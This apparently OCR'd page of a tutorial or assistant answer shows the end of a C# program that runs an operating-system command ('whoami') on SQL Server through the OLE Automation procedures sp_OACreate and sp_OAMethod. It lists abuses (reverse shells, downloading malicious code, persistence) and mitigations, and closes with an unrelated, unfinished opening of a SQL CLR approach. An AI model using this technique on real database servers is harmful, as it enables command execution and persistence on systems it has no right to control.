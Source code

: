 ```csharp
                    SET @Command = 'cmd.exe /c whoami > C:\temp\whoami.txt';

                    -- Execute the command using the COM object
                    EXEC sp_OAMethod @Object, 'Run', NULL, @Command;

                    -- Destroy the COM object
                    EXEC sp_OADestroy @Object;
                ";

                using (SqlCommand command = new SqlCommand(commandText, connection))
                {
                    command.ExecuteNonQuery();
                }
            }

            Console.WriteLine("Command executed successfully.");
        }
    }
}
```

### 3. **Explanation:**

- **sp_OACreate:** This SQL Server extended stored procedure creates an instance of a COM object, in this case, `WScript.Shell`.
  
- **sp_OAMethod:** This allows you to call a method on the COM object created. Here, the `Run` method of `WScript.Shell` is used to execute a system command (`whoami` in this case).

- **sp_OADestroy:** This cleans up the COM object to free up resources.

### 4. **Potential Abuses:**

- **Command Execution:** You can modify the `@Command` variable to run any system command, which could include downloading and executing malicious code, creating reverse shells, or modifying system configurations.
  
- **File Operations:** You could use `Scripting.FileSystemObject` instead of `WScript.Shell` to read/write files on the system.

- **Persistence:** This approach could be used to maintain persistence on a compromised SQL Server by creating scheduled tasks or modifying startup scripts.

### 5. **Mitigation:**
   - Disable the use of `sp_OACreate` and related OLE Automation stored procedures on SQL Server unless absolutely necessary.
   - Limit privileges and carefully audit who has the ability to execute such procedures.
   - Monitor and log the use of these procedures as part of your security operations.

This C# script directly interfaces with SQL Server, issuing commands that take advantage of these powerful, but potentially dangerous, extended stored procedures.

To achieve this in C#, you can use the `System.Diagnostics.Process` class to invoke a command shell from within a SQL CLR stored procedure. The output of the command executed in the shell can then be piped back into SQL Server using `SqlDataRecord`. Below is a step-by-step guide to implement this.
